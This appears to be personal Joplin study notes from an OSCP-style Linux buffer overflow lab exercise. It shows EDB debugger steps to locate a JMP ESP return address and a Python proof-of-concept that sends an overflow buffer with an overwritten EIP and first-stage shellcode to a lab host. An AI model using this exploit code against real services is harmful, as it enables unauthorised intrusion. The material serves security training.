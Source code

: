 12.6.1.1

# 12.6.1.1
## 12.6.1.1.1. Find a suitable assembly instruction address for the exploit using EDB.

Press Ctrl+O to go to the Opcode Search window, select:
- memory region 0x08048000-0x08144000
- JMP Equivalent ESP -> EIP
![91a3cbf8f96eac132fc65c2b782fbf9d.png](:/931bbbed12c04591b8953186cde1078f)

Choose the first JMP -> ESP instruction (0x08134596). This will be the value we use for EIP in our poc script.
![6172d3b2b504baedd6d23b5abd1d968d.png](:/bfefe0787a15464e8640b59f05f83bd9)


## 12.6.1.1.2. Include the first stage shellcode and return address instruction in your proof-of-concept and ensure that the first stage shellcode is working as expected by single stepping through it in the debugger.

Here is the script containing a return address in the eip variable:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 6_returnAddress.py 
#!/usr/bin/python
import socket

host = "192.168.214.44"

padding = "\x41" * 4368
eip = "\x96\x45\x13\x08"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

However, when we run the debugger we must first add a breakpoint to our JMP ESP instruction address using the EDB Breakpoint Manager plugin. We do this to verify our EIP is overwritten correctly. Then press F9 to continue running the application.
Press Ctrl+B to open the Breakpoint Manager Plugin and 'Add Breakpoint' 0x08134596
![7ef98a19b4eb3354266b08cb3bb1d449.png](:/6f5cbf6fa4bc4c55ac61349beb94e972)

Run the poc script
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 6_returnAddress.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

The application jumps to the return address we had found using OpCode search, and has written that same address to EIP (0x08134596).
![6b199f04f83fb98685ae705d47ac8026.png](:/0df16ea48cd946e0b385cc8c19768fc0)

Press F7 to get to the add 12 bytes instruction `add eax, 0xc`
![c204ffcc0d450fe44645909afab72122.png](:/d0754c8cbaf04204a6b9b9898816a698)

Press F7 again to get to the jump instruction `jmp eax`
![ee4240509ab8eda7524ee8f73f078c4a.png](:/4dbc948677024fe3a57cb8b5a93c24ad)

Right-click on the EAX register and 'Follow in Dump'. We notice that the EAX address points to right after the 'setup sound' string.
![9b30091fb783c1c95ba15dfe70b73fb2.png](:/aa8f37490b6343db9a48a40d8c4377b6)

id: ea387067759044f3beec0f76ec68cfb7
parent_id: 87dcf755d24544a39a58e7d9b0a3b8ad
created_time: 2020-10-02T21:44:42.822Z
updated_time: 2020-10-02T21:44:43.873Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:44:42.822Z
user_updated_time: 2020-10-02T21:44:43.873Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1
